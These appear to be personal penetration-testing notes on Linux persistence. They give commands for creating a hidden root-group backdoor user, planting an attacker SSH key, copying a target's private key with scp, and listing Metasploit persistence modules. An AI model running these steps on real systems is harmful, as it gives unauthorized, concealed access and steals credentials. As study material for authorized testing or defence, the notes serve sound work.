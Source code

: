 
# <mark style="background: #e74c3c;">**Create a backdoor user:**</mark>
This creates a user:

	useradd -m <username> -s <bash_shell>                        #E.g. useradd -m ftp -s /bin/bash

This changes the password of a user:

	passwd <username>                                            #E.g.  passwd Super_secret_Password


To add this user to the root group(To inherit root permisions):

	usermod -aG <group_to_join> <new_user_to_group>              #E.g.  usermod -aG root ftp


Change the user id of the user(To make it less sus):

	usermod -u <user_id> <username>                              #E.g.  usermod -u 15 ftp

Change the Group id of the user:

	usermod -g <group_id> <username>                             #E.g.  usermod -g 15 ftp



# <mark style="background: #00CDFF82;">**Persistence via SSH Keys:**</mark>


### <mark style="background: #DAB10C;">**1. Create a key pair and transfer the public key to the Target:**</mark>

> ⚠️ **Assumes attacker already has access to the target system** (via SSH, reverse shell, etc.)

#### 1. Create SSH Key Pair on Attacker Machine


`ssh-keygen -t rsa -b 4096 -f ~/.ssh/evil_key`

- `-t rsa`: key type
    
- `-b 4096`: 4096-bit key
    
- `-f ~/.ssh/evil_key`: save private key to specified file
    

This produces two files:

- `evil_key` (private key)
    
- `evil_key.pub` (public key)

Append the public key to the target somehow to the `/.ssh/authorized_keys` and now you should be able to login with your private key.....



### <mark style="background: #ED7506;">**2. Transfer the private key from target to our machine:**</mark>
whenever we generate a ssh key it creates 2 keys in the home directory of the user under `/.ssh`: 
`id_rsa` which is the private key.
`id_rsa.pub` is the public key.

If we have a ssh connection we can copy the `id_rsa` key to our host machine by this command:
We used the colon to specify what file we want to download from that user directory:

	scp <user>@<ip>~/.ssh/id_rsa .

Then give this key normal permissions: `chmod 400 id_rsa`

Then we can ssh login without a password:

	ssh -i id_rsa <user>@<ip>


# **Persistence <mark style="background: #FF5582A6;">MSF</mark> Modules:**

`search platform:linux persistence`


| Module                                                | Description                                                                                                                                                                                                                                                                                                                                   |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `exploit/linux/local/apt_package_manager_persistence` | This module will run a payload when the package manager is used. No<br>  handler is ran automatically so you must configure an appropriate<br>  exploit/multi/handler to connect. This module creates a pre-invoke hook<br>  for APT in apt.conf.d. The hook name syntax is numeric followed by text.                                         |
| `exploit/linux/local/cron_persistence`                | This module will create a cron or crontab entry to execute a payload.<br>  The module includes the ability to automatically clean up those entries to prevent multiple executions.<br>  syslog will get a copy of the cron entry.<br>                                                                                                         |
| `exploit/linux/local/service_persistence`             | This module will create a service on the box, and mark it for auto-restart.<br>  We need enough access to write service files and potentially restart services                                                                                                                                                                                |
| `post/linux/manage/sshkey_persistence`  # BEST METHOD | This module will add an SSH key to a specified user (or all), to allow<br>  remote login via SSH at any time.<br><br>`set CREATESSHFOLDER true`<br>`set SESSION <session_id>`<br>Then create a file and add the sshkey to it with limited permissions: <br>`chmod 400 ssh_key` <br><br>Then Login with SSH:<br>`ssh -i ssh_key root@<ip>`<br> |










